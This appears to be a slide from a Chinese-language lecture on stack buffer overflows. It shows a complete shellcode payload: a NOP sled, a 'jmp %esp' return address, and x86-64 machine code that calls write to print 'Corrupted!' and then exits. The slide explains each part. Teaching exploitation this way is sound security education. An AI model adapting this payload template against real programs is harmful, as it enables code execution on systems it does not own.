

# 构造恶意代码
最终构造完成的shellcode.txt如下：
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//10
……
"\x90\x90"//152
"\x29\x06\x40\x00\x00\x00\x00\x00"
"\x48\xc7\xc0\x01\x00\x00\x00"
"\x48\xc7\xc7\x01\x00\x00\x00"
"\x48\x8d\x74\x24\x31"
"\x48\xc7\xc2\x0c\x00\x00\x00"
"\x0f\x05"
"\x48\xc7\xc0\x3c\x00\x00\x00"
"\x48\xc7\xc7\x00\x00\x00\x00"
"\x0f\x05"
"\x90\x90\x90\x90\x90"
"Corrupted!\r\n";
利用nop指令填充当前函数栈

跳板指令地址（jmp %esp）

shellcode的机器码，目的是调用write系统调用和exit系统调用
输出的内容（数据），作为write系统调用的参数